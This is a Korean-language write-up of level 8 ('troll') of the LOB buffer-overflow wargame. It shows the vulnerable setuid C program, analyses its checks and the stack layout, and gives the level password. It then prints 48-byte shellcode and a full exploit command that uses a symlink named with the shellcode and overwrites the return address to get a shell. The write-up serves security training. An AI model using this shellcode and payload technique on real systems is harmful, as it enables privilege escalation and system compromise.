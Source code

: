 ```yaml
---
title: BOF/ LOB-level8(troll)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 8(orge)
**ID : orge**  
**PASSWD : timewalker**  

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level8/1.PNG)  
사용자 troll의 권한의 troll파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 troll의 권한으로 파일을 실행할 수 있다.**  
**troll파일이 쉘을 실행시키도록 한다면 사용자 troll의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
{% endhighlight %}  
**troll.c**

### 소스분석  
1. argc가 2가 아닌경우 "ergv must be two!"를 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개의 인자를 전달하여야 한다.**  
**[LOB(level5)](https://limjunho.github.io/2019/11/03/LOB-level5(orc).html#lob-level-5orc)와 같이 argv[2]를 이용한 공격 불가**  
2. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
3. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
5. argv[1]의 길이가 48보다 큰 경우 "argument is too long!"을 출력 후 프로그램 종료  
**RET뒤에 NOP과 ShellCode를 삽입하는 공격 불가**  
6. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
7. memset으로 buffer를 모두 0으로 초기화  
**buffer에 쉘코드를 전달하고 buffer의 주소를 BOF시키는 공격 불가**  
8. memset으로 argv[1]을 모두 0으로 초기화  
**[LOB(level6)](https://limjunho.github.io/2019/11/03/LOB-level6(wolfman).html)와 같이 argv[1]의 주소를 이용한 공격 불가**

### Solution  
**[LOB(level6)](https://limjunho.github.io/2019/11/03/LOB-level6(wolfman).html)와 매우 유사한 풀이이다.**  
**단, argv[1]을 사용할 수 없기 때문에 argv[0] 즉 파일명에 쉘코드를 전달하고 argv[0]의 주소를 buffer over-flow공격**  

**심벌릭링크?**  
링크를 연결하여 원본 파일을 직접 사용하는 것과 같은 효과를 내는 링크이다. 윈도우의 바로가기와 비슷한 개념  

#### level8에서 사용한 쉘코드  
**\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81**  
**48Byte**  
이번 문제에서 사용하는 쉘코드는 전과 달리 2f가 없도록 작성되었다. -> \x2f는 ascii 코드로 / 를 뜻한다.  
**Linux에서 파일명에 /는 경로를 의미하기 때문에 shellcode에 2f가 있다면 정상적인 공격이 어려움**  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 기존 troll.c를 복사하여 argv[0]의 주소를 출력하는 코드를 추가.   
**buffer와 argv[1]을 초기화하고 main에 더 이상의 인자를 주지 못하지만 argv[0]은 초기화하지 않기 때문에 이를 이용**   

{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[0]);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
{% endhighlight %}  
**troll.c를 복사하여 소스 추가 -> printf("%p\n", argv[0]);**  


![그림2](/assets/LOB/level8/2.PNG)  
위의 방법으로 argv[0]의 주소를 획득.  
argv[0]의 주소 -> 0xbffffbcd  

**파일명의 길이가 원본 실행파일(troll)의 심벌릭링크와 길이가 같아야 한다.**  
argv[0]의 길이가 다르면 원본파일의 argv[0]의 주소와 다른 주소를 얻을 수 있기 때문.  


![그림3](/assets/LOB/level8/3.PNG)  
set-uid가 걸린 원본파일에 쉘코드를 이름으로 심벌릭링크 등록  

### Attack  

argv[0]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./troll + [dummy] + [argv(0)주소]**의 형태로 공격.  
**이 때 dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**  
**또한 RET에 덮을 argv[0]의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level8/4.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./`python -c "print '\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81'"` `python -c "print 'A'*44 + '\xcd\xfb\xff\xbf'"`
```